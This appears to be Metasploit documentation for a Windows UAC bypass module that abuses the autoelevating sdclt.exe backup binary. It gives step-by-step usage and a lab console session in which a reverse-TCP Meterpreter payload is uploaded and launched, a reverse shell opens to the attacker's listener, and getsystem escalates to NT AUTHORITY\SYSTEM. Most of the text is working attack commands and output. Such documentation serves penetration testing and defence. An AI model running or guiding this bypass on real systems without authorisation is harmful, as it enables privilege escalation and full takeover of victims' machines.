 ## Introduction

This module exploits an autoelevate feature in the windows backup
system's sdclt.exe binary to run as a higher integrity process.

## Usage

1. Create a session on the target system under the context of a local administrative user.
2. Begin interacting with the module: `use exploit/windows/local/bypassuac_sdclt`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenario

### Windows 10.0.17134 x64

```
msf5 exploit(windows/local/bypassuac_sdclt) > show options

Module options (exploit/windows/local/bypassuac_sdclt):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION       1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/bypassuac_sdclt) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] exploit_file = C:\Windows\System32\sdclt.exe
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe
[*] Making Payload
[*] reg_command = C:\Windows\System32\cmd.exe /c start C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\sdclt.exe
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe!
[*] Please wait for session and cleanup....
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49679) at 2019-10-25 14:55:08 -0500
[*] Removing Registry Changes
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
